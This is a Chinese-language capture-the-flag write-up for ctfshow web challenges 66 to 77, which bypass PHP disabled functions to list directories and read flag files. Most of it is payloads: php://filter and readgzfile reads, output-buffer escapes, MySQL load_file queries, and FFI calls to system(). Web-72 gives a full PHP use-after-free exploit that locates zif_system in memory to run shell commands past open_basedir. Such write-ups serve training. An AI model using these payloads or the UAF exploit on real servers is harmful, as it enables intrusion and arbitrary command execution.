源码还是一样，但是我们读取目录下的flag.php然后发现flag不在，所以这次我们得扫描下根目录，然后再读取

```
查看根目录内容
c=print_r(scandir("/"));
或
c=print_r(scandir(dirname('.')));
或
c=var_dump(scandir('/'));
或
新思路：PHP原生类可遍历目录 c=$dir=new DirectoryIterator("/");echo $dir; (url编码：
c=%24dir%3dnew%20DirectoryIterator(%22%2f%22)%3b%0aforeach(%24dir%20as%20%24f)%7b%0a%20%20%20%20echo(%24f.'%3cbr%3e')%3b%7d)
扫描发现一个flag.txt


查看文件内容
POST传参：c=highlight_file("/flag.txt");
POST传参：c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=/flag.txt
POST传参：c=highlight_file("../../../../../flag.txt");
```

---

## web-67（命令执行突破禁用函数）

试了一下发现print_r()和show_source()被禁用了，用var_dump代替print_r，

highlight_file读取

```
查看根目录
c=var_dump(scandir('/'));
或者
php原生类c=%24dir%3dnew%20DirectoryIterator(%22%2f%22)%3b%0aforeach(%24dir%20as%20%24f)%7b%0a%20%20%20%20echo(%24f.'%3cbr%3e')%3b%7d

读取文件
c=highlight_file("/flag.txt");
c=highlight_file("../../../../../flag.txt");
c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=/flag.txt
```

---

## web-68（命令执行突破禁用函数、readgzfile、splFileobject->fpassthru）

这里点开发现highlight_file被禁用了，依然可以使用var_dump结合scandir来显示根目录的文件列表，然后这里可以用include和require

```
查看根目录内容
c=var_dump(scandir("/"));

查看文件内容
POST传参：
c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=/flag.txt
c=var_dump((new SplFileObject("/flag.txt"))->fpassthru());
c=readgzfile("/flag.txt");
```

---

## web-69（命令执行突破禁用函数、implode、var_export、json_encode）

implode函数：将数组转换成字符串再打印

var_export：类似var_dump

json_encode() 函数：将数组转换为 JSON 格式的字符串，可以用于在前端或其他系统中传递和处理数组数据。

解题思路：

**前面几题用到的打印数组函数 print_r() 和 var_dump() 已被禁用，但是还有几种能打印数组的函数**

```
查看根目录内容
c=echo json_encode(scandir("/")); 
c=echo(implode("--",scandir("/")));
c=var_export(scandir("/"));

查看文件内容
POST传参：
c=readgzfile('/flag.txt');
c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=/flag.txt
c=include("/flag.txt");
```

---


## web-70（同上）

上一关的var_export等函数依然可用

---

## web-71（正则替换绕过、提前送出缓冲区或终止程序、ob_flush()、ob_end_flush、exit、die）

我们首先使用上一题的查看根目录的payload发现，输出全是?，猜测是源码内有替换语句。

分析：

```php
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
```

源码劫持了输出缓冲并且将数字和字母替换成了`?`。

payload：

```
c=var_export(scandir('/'));exit();
法一
在劫持输出缓冲区之前就把缓冲区送出，可以用的函数有：
ob_flush();
ob_end_flush();
payload示例：
c=include('/flag.txt');ob_flush();

法二
提前终止程序，即执行完代码直接退出，可以调用的函数有：
exit();
die();
payload示例：
c=include('/flag.txt');exit();
```

---

## web-72（暂时还看不懂、open_basedir限制绕过、脚本uaf）

**暂时还看不懂**

找到flag0.txt 利用脚本uaf绕过

```
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f-
>__toString().'');}exit(0);?>
```

```
<?php

function ctfshow($cmd) {
   
    global $abc, $helper, $backtrace;

    class Vuln {
   
        public $a;
        public function __destruct() {
    
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
   
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
   
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
   
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
   
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
   
        $out = "";
        for ($i=0; $i < $m; $i++) {
   
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
   
        $i = 0;
        for($i = 0; $i < $n; $i++) {
   
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
   
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) {
    $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
   
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
   
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) {
    

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) {
    
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
   
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
   
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
   
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
   
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
   
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
   
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
   
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
   
        $addr = $basic_funcs;
        do {
   
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
   
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {
   

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
   
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) {
    };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
   
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
   
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
   
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
   
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
   
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
   
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
?>
```

}

---

## web-73（readgzfile、var_export）

payload如下： var_export(scandir('/'));**本题没有open_basedir限制**（也可以用上一题的UAF，但需改写相关关键字） 发现有flagc.txt 或者 echo(implode(' ',scandir('/')));数组拼接为字符串 include,require包含失败 可用readgzfile('/flagc.txt'); 拿到Flag

```
查看根目录文件
c=var_export(scandir('/'));exit();

查看文件内容
c=readgzfile('/flagc.txt');
```

---

## web-74（glob伪协议、var_export）

**glob:// — 查找匹配的文件路径模式**

payload：

```
查看根目录文件
c=var_export(glob('../../..'.'/*'));exit();
c=var_export(glob("/*"));exit();
c=var_export(glob("/f*"));exit();

查看文件内容
c=include("/flagx.txt");die();
```

---

## web-75（glob伪协议、php原生类DirectoryIterator、__toString、mysqli）

首先依然可以使用glob伪协议和php原生类打印根目录下文件，但是include限制包含文件夹

这里可以使用mysql的load_file函数

```
查看根目录下文件
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f-
>__toString().'-');}exit(0);?>

使用mysqli语句和load_file函数查询/flag36.txt内的内容然后输出
c=$conn = mysqli_connect("127.0.0.1", "root", "root", "ctftraining"); $sql = "select load_file('/flag36.txt') as a"; $row = mysqli_query($conn, $sql); while($result=mysqli_fetch_array($row)){ echo $result['a']; } exit(); 

使用PDD查询
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row)
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-
>getMessage();exit(0);}exit(0);
```

## web-76（同上）

步骤和payload与上题差不多，就改了下flag文件名

## web-77（FFI、glob伪协议）

FFI，php7.4以上才有 https://www.php.net/manual/zh/ffi.cdef.php https://www.php.cn/php-weizijiaocheng-415807.html

```
首先查看目录 看看flag 在哪里 ，上上题的PHP原生类查看目录也可以用
c=$a ="glob:///*";
if($b = opendir($a))
{ while( ($file = readdir($b)) !== false ){ echo "filename:".$file."\n"; } closedir($b); }exit;


然后
c=$ffi = FFI::cdef("int system(const char *command);"); $a='/readflag > /var/www/html/1.txt'; $ffi->system($a); exit(); 
再次使用 
c=readgzfile("1.txt");exit; //拿到flag
```

